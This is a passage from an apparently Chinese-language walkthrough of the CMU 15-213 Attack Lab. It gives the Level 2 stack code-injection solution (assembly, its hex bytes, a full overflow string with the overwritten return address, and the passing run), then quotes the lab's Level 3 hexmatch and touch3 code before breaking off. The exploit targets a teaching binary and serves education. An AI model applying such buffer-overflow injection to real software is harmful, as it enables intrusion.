 ```
End of assembler dump.
```

可见，`touch2()` 传入的参数 `val` 被存放在寄存器 `%edi` 中，并且在 `<+16>` 处与 `cookie` 进行比较。因此，在进入 `touch2()` 前我们要将寄存器 `%edi` 中的值修改掉，即如下汇编代码：

```asm
mov $0x59b997fa, %edi
```

除此之外，需要将程序跳转至 `touch2()` 处（地址为 `0x004017ec）。故：

```asm
mov $0x004017ec, %eax
jmp *%eax
```

将上述代码汇编后，得到：

```
BF FA 97 B9 59 B8 EC 17 40 00 FF E0
```

最后，我们借助与 Level 1 类似的思路，让 `getbuf()` 执行完成后跳转到我们刚刚注入的代码，也就是字符串的起始位置 `0x5561dc78`（即 Level 1 中所提到的返回地址的位置减去 `0x28`）。最终构造出如下字符串：

```
BF FA 97 B9 59 B8 EC 17 40 00 FF E0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```

试试看~

```
$ ./hex2raw < hex.txt > raw && ./ctarget -q -i raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 B8 EC 17 40 00 FF E0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```

## Level 3

### 要求

Level 3 在 Level 2 的基础上做了一些变动：要执行的函数不再以整形为参数，而以一个字符串为参数。`hexmatch()` 和 `touch3()` 都是包含在 `ctarget` 中的函数：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
```